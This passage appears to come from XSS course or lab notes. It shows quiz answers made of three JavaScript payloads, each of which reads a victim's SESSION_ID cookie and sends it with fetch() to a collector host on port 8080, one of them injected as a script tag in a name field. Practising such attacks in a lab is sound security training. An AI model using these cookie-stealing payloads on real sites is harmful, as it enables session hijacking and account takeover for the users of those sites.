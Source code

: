 * [XSS (Cross-site Scripting) on Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)

#### 5.12 XSS Quiz
Setting data form to body:
```js
let sessionId = document.cookie.match(/SESSION_ID=[^;]+/)[0].split('=')[1];
// let sessionId = document.cookie.match(/SESSION_ID=[^;]+/)[0].slice('SESSION_ID='.length);
fetch('http://decoder.127.0.0.1.xip.io:8080', {
  method:'POST',
  headers: {
    'Content-Type' : 'application/x-www-form-urlencoded',
  },
  body: 'key='+sessionId,
}).then(function(response) {
    console.log(response);
}).catch(function(exception) {
  console.log(exception);
});
```
Encoding data form in url:
```js
let sessionId = document.cookie.match(/SESSION_ID=[^;]+/)[0].split('=')[1];
// let sessionId = document.cookie.match(/SESSION_ID=[^;]+/)[0].slice('SESSION_ID='.length);
fetch('http://decoder.127.0.0.1.xip.io:8080?'+'key='+sessionId, {
  method:'POST',
  headers: {
    'Content-Type' : 'application/x-www-form-urlencoded',
  }
}).then(function(response) {
    console.log(response);
}).catch(function(exception) {
  console.log(exception);
});
```
Encoding the script into a name string
```js
yourname<script>
fetch('http://decoder.127.0.0.1.xip.io:8080?'+'key='+document.cookie.match(/SESSION_ID=[^;]+/)[0].split('=')[1], { method:'POST',
  headers: {
    'Content-Type' : 'application/x-www-form-urlencoded',
  }
})</script>

```
